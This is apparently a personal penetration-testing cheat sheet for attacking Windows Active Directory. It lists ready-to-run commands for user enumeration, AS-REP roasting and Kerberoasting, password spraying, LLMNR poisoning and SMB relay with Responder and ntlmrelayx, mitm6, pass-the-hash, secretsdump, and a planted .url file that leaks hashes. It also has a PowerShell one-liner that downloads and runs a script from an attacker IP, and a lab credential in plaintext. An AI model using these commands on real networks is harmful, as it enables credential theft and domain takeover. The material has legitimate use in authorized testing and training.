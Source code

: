 <h1> Kerbrute </h1><br>
Only do usernames as to not lockout users <br>
Located in my downloads <br>
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt <br>
<br>
<h1> Query Ticket auth with no password </h1><br>
take valid usernames from kerbrute and place into new user file <br>
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes <br>
cat hashes - look for any usernames with hashes here to crack <br>
<br>
To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat<br>
hashcat mode -m 18200 <br>
<h1> Username grabbing via NULL session </h1> <br>
enum4linux -U DCIP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" <br>
crackmapexec smb 172.16.5.5 --users <br>
Can now spray passwords with kerbrute - kerbrute passwordspray -d domain --dc IP validusers.txt Welcome1
<br>

<h1>LLMNR Poisoning</h1><br>
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user <br>
<br>
Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv <br>
Run tool first thing in morning on a pen test and right after lunch <br>
<br>
Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
<br>
hashcat -m 5600 file.txt rockyou.txt --force ------  -m 5600 stands for AD hash NetNTLMv2 <br>
<br>
<h1>SMB Relay</h1><br>
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.<br>
<b> to work have to go to responder.conf and turn off SMB and HTTP</b> <br>
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support <br>
<br>
Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times <br>
Could also use - sudo python3 smbexec.py domain/username:'password'@IP <br>
Or psexec.py domain/username:password@IP <br>
<br>
<h1>Pass Back Attack </h1> <br>
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers) <br>
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
<br>
<br>
<h1> Force Hashes </h1> <br>
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder <br>
name the file "@something.url" and include contents <br>
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico<br>
  run responder and anyone who visits share will send hash<br>

<h1> MITM6 </h1> <br>
github.com/got-it/mitm6 <br>
mitm6 -I eth0 -d domain.local <br>
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme <br>

<h1>Further strats </h1><br>
Look for web portals that may have default creds, anything on there that shows AD creds? <br>
Check GPO's or hardcoded creds within XML files etc <br>
Look on printers <br>

<h1> Post exploitation <h1><br>
  <h2> Domain Enumeration with Powershell </h2> <br>
  . .\PowerView.ps1 (enter) <br>
  Get-NetDomain (enter)<br>
  Get-DomainPolicy<br>
  Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description<br>
  
  <h1> Pass the password </h1><br>
  crackmapexec smb IP/CIDR -u user -d domain -p password <br>
  This will loop through the IPs specified to see what devices the user can authenticate against. <br>
  <br>
  
  <h1> Pass the Hash </h1><br>
  Crackmapexec IP -u username -H hash --local-auth <br>
  <br>
  <h1> Find valid Domain Admins with lower account </h1> <br>
  python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
  
 <br>
  <h1> Secrets Dump </h1> <br>
  Any machine that allows login via SMB perform a secrets dump on the machine to dump out the local hashes should the account be a administrator <br>
  secretsdump.py domain/username:password@ip
  <br>
  
  <h1> Kerboeroasting </h1><br>
  Goal here is to get a TGS (Service Ticket) to decrypt servers account hash<br>
  python3 /home/kali/impacket/examples/GetUsersSPN.py domain/username:password -dc-ip IP -request <br> (doesnt always need password <br>
  Hashcat -m 13100 textfile.txt wordlist.txt <br>
  <br>
  <h2> Kerbroasting from windows </h2><br>
 
  Run Powerview (download fromn machine that can access the internet - IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.160:8000/PowerView.ps1') <br>
 Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname <br>
  Now target account - Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

